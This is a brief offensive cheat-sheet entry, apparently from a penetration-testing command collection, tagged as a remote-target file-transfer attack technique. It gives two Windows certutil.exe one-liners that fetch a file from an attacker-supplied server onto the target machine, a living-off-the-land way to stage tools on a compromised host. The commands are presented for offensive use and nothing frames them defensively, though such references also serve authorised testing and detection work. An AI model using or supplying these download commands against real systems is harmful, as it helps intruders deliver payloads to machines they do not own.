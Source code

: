 # certutil

% windows, download, certutil

## download with certutil
#plateform/windows #target/remote #cat/ATTACK/FILE_TRANSFERT 
```
certutil.exe -urlcache -split -f http://<server>/<source_file> <dest_file>
```

## download with  certutil (2)
#plateform/windows #target/remote #cat/ATTACK/FILE_TRANSFERT 
```
certutil.exe -verifyctl -f -split h http://<server>/<source_file> <dest_file>
```
